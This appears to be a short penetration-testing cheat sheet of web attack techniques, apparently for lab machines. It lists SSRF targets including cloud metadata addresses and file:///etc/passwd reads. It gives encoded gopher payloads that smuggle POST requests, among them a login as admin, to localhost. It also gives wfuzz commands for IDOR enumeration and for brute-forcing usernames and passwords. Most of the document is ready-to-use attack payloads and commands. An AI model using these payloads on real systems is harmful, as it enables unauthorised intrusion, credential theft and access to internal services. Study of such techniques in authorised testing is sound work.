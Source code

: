 Try to insert `http://localhost` as a parameter (requires a non-blind SSRF) and see if you can enumerate some internal services on the host.

<b>Metadata on Cloud Services
* 169.254.169.254
* metadata.google.internal
* metadata.web200.local(?)

<b>Alternative file schemes
* file:/etc/passwd
* file:///etc/passwd
* file:///c:/windows/win.ini

<b>Gopher Protocol

Requires the user agent to be curl, which is most easily determined via apache2 logs 

Note: you need to double encode all special characters when manually crafting a gopher payload to send in burp

For example
```
gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a
```
In burp now becomes 
```
gopher%3a%2f%2f127.0.0.1%3a80%2f_POST%2520%2fstatus%2520HTTP%2f1.1%250a
``` 

Another post example to a fictitious login endpoint

```
cv=gopher://localhost:80/_POST%2520/login%2520HTTP/1.1%250aContent-Type%253a%2520application/x-www-form-urlencoded%250aContent-Length%253a%252032%250a%250ausername=admin%2526password=password
```

### IDOR 

```
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

### Username / PW Fuzzing 
```
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```
```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```


### Reporting Checklist 

Remember to work on a machine and document/report fully before moving on to another machine
